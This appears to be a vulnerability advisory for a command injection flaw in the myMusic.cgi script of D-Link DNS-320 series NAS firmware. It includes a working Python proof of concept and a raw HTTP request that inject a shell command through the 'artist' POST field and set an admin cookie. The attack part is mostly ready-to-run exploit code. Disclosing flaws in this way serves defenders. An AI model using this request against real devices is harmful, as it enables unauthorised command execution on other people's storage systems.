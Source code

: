 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_get_album_all_tracks function of the file /cgi-bin/myMusic.cgi.  The variable `artist`is passed from a POST request and is assigned to `v6` via the `snprintf` function at line 36 and invoked by the `popen` command, the SpecSymbol2BackSlash function did not work which leads to command execution. 

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723715021402-1ea27d3e-d763-4864-acab-367500dcb35b.png#averageHue=%23fdfdfa&clientId=u230a59ea-1997-4&from=paste&height=305&id=u11f267c9&originHeight=367&originWidth=822&originalType=binary&ratio=1&rotation=0&showTitle=false&size=58556&status=done&style=none&taskId=ue5cd0265-1ced-47a1-9045-602c89d7b11&title=&width=683)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/myMusic.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_get_album_all_tracks&artist=%0atouch%09/tmp/117%0a&user=111&album=222"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/myMusic.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_get_album_all_tracks&artist=%0atouch%09/tmp/117%0a&user=111&album=222
```
